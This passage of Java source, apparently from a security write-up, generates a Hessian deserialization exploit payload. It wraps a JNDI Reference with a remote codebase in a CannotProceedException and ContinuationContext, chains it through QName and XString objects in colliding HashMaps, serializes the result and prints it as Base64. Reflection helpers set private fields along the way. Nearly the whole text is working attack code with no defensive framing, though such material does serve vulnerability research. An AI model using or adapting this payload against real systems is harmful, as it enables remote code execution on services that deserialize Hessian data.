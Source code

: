 ```


        Reference reference = new Reference("aaa",clazz,codebase);
//        setFieldValue(reference,"classFactory",clazz);
//        setFieldValue(reference,"classFactoryLocation",codebase);

        CannotProceedException cpe = new CannotProceedException();
        setFieldValue(cpe,"resolvedObj",reference);
//        cpe.setResolvedObj(reference);

        Context continuationContext = (Context) constructor.newInstance(cpe,new Hashtable());


        QName qName = new QName(continuationContext,"aa","bb");
//        ArrayList list = new ArrayList();
//        list.add("DawnT0wn");
//        list.add("hello");
//        setFieldValue(qName,"_items",list);
        XString xString = new XString("");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",qName);
        map1.put("bB",xString);
        map2.put("aa",xString);
        map2.put("bB",qName);
        HashMap map = new HashMap();
        map.put(map1,"");
        map.put(map2,"");

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
        System.out.println(base64);
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```
